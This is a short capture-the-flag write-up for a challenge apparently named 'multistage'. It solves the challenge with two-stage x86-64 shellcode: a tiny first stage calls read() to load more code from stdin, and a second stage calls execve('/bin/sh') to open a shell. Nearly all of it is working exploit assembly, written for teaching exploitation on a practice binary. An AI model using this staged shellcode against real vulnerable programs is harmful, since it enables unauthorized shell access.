 # multistage

This challenge reads shellcode from stdin and executes it. The problem is that it reads just 20 (0x14) bytes that are not enough to write a shellcode that spawns a shell.

The idea is to write a first stage that reads the second stage from stdin.

## First Stage

```asm
mov rsi, rax
xor rax, rax
mov rdi, rax
mov rdx, 0x1000
syscall
```

- RSI: set to the address of the second stage
- RAX: set to 0 (SYS_read)
- RDI: set to 0 (stdin)
- RDX: set to 0x1000 (4096 bytes), the number of bytes to read (basically a random large enough number)

## Second Stage

```asm
; 20*0x90 to align with the RIP
mov rdi, rsi
add rdi, 0x2b
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

- RDI: set to the address of the string "/bin/sh"
- RAX: set to 0x3b (SYS_execve)
- RSI: set to 0 (NULL)
- RDX: set to 0 (NULL)
